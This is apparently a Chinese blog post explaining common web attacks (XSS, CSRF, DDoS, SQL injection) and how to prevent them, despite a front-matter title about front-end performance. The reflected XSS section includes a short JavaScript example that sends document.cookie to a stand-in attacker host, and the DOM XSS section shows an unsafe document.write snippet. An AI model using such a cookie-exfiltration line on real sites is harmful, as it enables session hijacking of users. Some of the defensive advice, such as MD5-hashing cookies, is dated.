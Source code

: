 ```yaml
---
layout: post
title: 前端性能优化方法
categories: [前端开发]
description: some word here
keywords: 性能优化
---
```


随着Web2.0、社交网络、微博等等一系列新型的互联网产品的诞生，基于Web环境的互联网应用越来越广泛，企业信息化的过程中各种应用都架设在Web平台上，Web业务的迅速发展也引起黑客们的强烈关注，接踵而至的就是Web安全威胁的凸显。下文对常见的Web安全问题和防范防范进行学习和总结。

## 跨站脚本攻击(XSS)
### 简介
跨站脚本攻击(Cross Site Scripting)为和层叠样式表(Cascading Style Sheets，CSS)区分开，在安全领域叫做“XSS”。恶意攻击者往Web页面里注入恶意Script代码，当用户浏览这些网页时，就会执行其中的恶意代码，
可对用户进行盗取cookie信息、会话劫持、篡改网页等各种攻击。XSS是常见的Web攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被OWASP列为当前的头号Web安全威胁。
攻击者一般通过留言、电子邮件或其他途径向受害者发送一个精心构造的恶意URL，当受害者在Web中打开该URL的时候，恶意脚本会在受害者的计算机上执行。
### 分类
#### 反射型XSS
服务器接受客户端的请求包，不会存储请求包的内容，只是简单的把用户输入的数据“反射”给浏览器。比如
```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```
访问这个链接则会获取cookie内容。
#### 存储型XSS
这类XSS攻击会把用户输入的数据“存储”在服务器端的数据库中。多发生在富文本编辑器、日志、留言、配置系统等数据库保存用户输入内容的业务场景。即用户的注入脚本保存到了数据库里，
其他用户进行访问涉及到包含恶意脚本的链接都会中招。由于这段恶意的脚本被上传保存到了服务器，这种XSS攻击就叫做“存储型XSS”。
#### 基于DOM的XSS
DOM XSS和反射型XSS、存储型XSS的差别在于DOM XSS的代码并不需要服务器参与，触发XSS靠的是浏览器端的DOM解析。攻击者将攻击脚本注入到DOM结构里，比如```<script>document.write(window.location.search); </script>```
### 防范
#### 对输入进行检查、过滤
不信任任何用户的输入，对每个用户的输入都做严格检查。通过检验输入值的有效性， 当输入值不符合条件时就显示错误消息并促使用户重新输入，在输出的时候，对某些特殊字符进行转义，替换。
例如，在HTML中显示<时，必须按照字符实体引用（Character Entity Reference）将其转义记载为'&lt';。而如果忽略这一步骤直接生成HTML的话，浏览器就会将<解释为标签的开始。
从而就会招致恶意利用此漏洞进行的XSS攻击。
没有用引号括起来的属性值也会导致XSS攻击，空格就意味着属性值的结束，就可以通过插入空格来添加属性，比如onmouseover事件绑定。
然而， 即使属性值都用引号括了起来，但只要"没有被转义，还是会发生 XSS 攻击。所以要对<和"进行转义。
#### 输出编码
服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范XSS攻击。JavaScript的编码方式可以使用JavascriptEncode。

#### 辅助性对策 
给 Cookie添加 HttpOnly属性，该属性能禁止JavaScript读取Cookie值。对Cookie信息进行MD5等算法进行多次散列存放，必要时还要对ip和cookie进行绑定，一旦检测异常，立马让用户重新登录。

## 跨站请求伪造(CSRF)
### 简介
跨站请求伪造(CSRF)可以攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。参考别的博客的一张图，过程如下：
![](/images/web/w12.png)
### 防范
1、执行重要业务之前，要求用户提交额外的信息。通过 token 或者 验证码 来检测用户提交
2、尽量不要在页面的链接中暴露用户隐私信息，对于用户修改删除等操作最好都使用post 操作。
3、限制验证cookie的到期时间。这些cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。不过，这个时间越短，用户就越不方便。因此，你需要在安全性和方便性之间进行平衡。避免全站通用的cookie，严格设置cookie的域

## 分布式拒绝服务攻击(DDoS)
### 简介
利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务的响应

### 防范
1、隐藏服务器的真实IP地址，及时变更
2、防火墙上放置一份 ACL（访问控制列表)来阻断这些来自这些 IP 的访问
3、使用高性能的负载均衡软件

## SQL注入
### 简介
把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
### 防范
单引号转义、preparestatement预编译接口